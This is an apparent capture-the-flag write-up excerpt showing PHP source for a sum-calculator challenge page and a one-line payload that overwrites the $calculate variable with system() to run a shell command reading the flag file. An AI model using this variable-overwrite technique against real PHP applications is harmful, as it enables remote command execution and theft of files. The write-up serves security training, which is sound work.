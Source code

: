 ```php

if ($a && $b) {
    $result = $calculate($a, $b);
}
?>
<html>
    <head>
        <title>The Ultimate Sum Calculator-inator</title>
    </head>
    <body>
        <h1>The Ultimate Sum Calculator-inator</h1>
        <form method="post">
            <input name="a" type="text" placeholder="First number" />
            <div style="height: 4px"></div>
            <input name="b" type="text" placeholder="Second number" />
            <br /><br />
            <input type="submit" value="Calculate" />
        </form>
        <?php if ($result) echo "The result is $result"; ?>
    </body>
    <!-- ?debug=1 -->
</html>
```

We can use this exploit to overwrite the `calculate` variable to `system` and triggers code execution:

```
calculate=system&&a=cat /.flag/flag.txt&&b=dummy
```

The result:

<a href="/assets/images/ctf/arkav7/1.png"><img src="/assets/images/ctf/arkav7/1.png"></a>
